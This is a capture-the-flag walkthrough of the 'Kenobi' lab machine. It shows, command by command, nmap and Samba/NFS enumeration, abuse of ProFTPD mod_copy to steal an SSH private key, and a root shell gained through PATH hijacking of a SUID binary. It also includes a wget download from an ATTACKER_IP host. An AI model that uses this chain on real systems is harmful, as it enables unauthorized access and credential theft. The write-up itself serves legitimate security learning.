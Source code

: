 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

We start things off with a basic **Nmap** scan on the server. we can run 2 nmap scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that **7** ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 (Samba)**, **445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, **3** shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`. I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to authenticate.

We can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a text file: **log.txt**

**log.txt** was a **ProFTPD** configuration file which gave us a lot of interesting and potentially useful information about the server. Let's take note of this file for now.

Next, let's tackle port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to the **network file system (NFS)**. We can use nmap to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's revisit the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To obtain the version, we can use `nc` to connect to the FTP server:

```
nc 10.10.243.180 21
```

From the response, we know that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

From the **log.txt** file earlier, I found out that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can copy the private key over to this mount point, mount our local machine and obtain the private key! This will then allow us to access the machine via SSH as the user kenobi.

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. The room taught me how to use the `find` command to find files that have the SUID-bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to try using a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), to speed things up.

To transfer linpeas over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the **linpeas.sh** script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port **8000**. Next, on the target machine, I used `wget` to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting file that had its SUID-bit set - **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set).

Using the command `strings`, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. not using `/usr/bin/curl` or `/usr/bin/uname`).

Hence, we can manipulate our **PATH** to exploit this fact and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is accessible by all users:

```
chmod 777 curl
```

Next, we put its location into our **PATH**. In my case, since I created the `curl` file in **/tmp**, I'll add that directory into the PATH:

```
export PATH=/tmp:$PATH
```

Now, when `/usr/bin/menu` is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in **/tmp** first, and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from **/root**.





